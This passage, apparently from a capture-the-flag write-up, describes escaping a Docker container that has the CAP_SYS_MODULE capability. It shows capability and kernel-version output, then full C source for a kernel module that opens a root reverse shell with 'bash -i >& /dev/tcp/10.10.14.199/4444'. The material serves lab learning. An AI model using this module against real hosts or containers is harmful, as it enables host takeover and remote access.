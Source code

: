 ### Shell as root (Docker)

Let's check capabilities within the container. It seems we've got `CAP_SYS_MODULE` capabilities, which is vulnerable to sharing kernel modules with the host.

```sh
root@55f9268f69df:~# capsh --print
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

### CAP_SYS_MODULE Exploitation

Here's a helpful [blog post](https://blog.nody.cc/posts/container-breakouts-part2/) of the container escape we'll be attempting. Made a few minor changes to the reverse shell code, as well as the Makefile.

```sh
root@55f9268f69df:~# ls /usr/src
ls /usr/src
apache-ofbiz-17.12.01
linux-headers-4.15.0-132
linux-headers-4.15.0-132-generic
linux-headers-4.15.0-142
linux-headers-4.15.0-142-generic
linux-headers-4.15.0-151
linux-headers-4.15.0-151-generic
root@55f9268f69df:~# uname -r
uname -r
4.15.0-151-generic
```

Next, upload your `reverse-shell.c` and `Makefile` to the Docker using `wget`.

```C
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.199/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

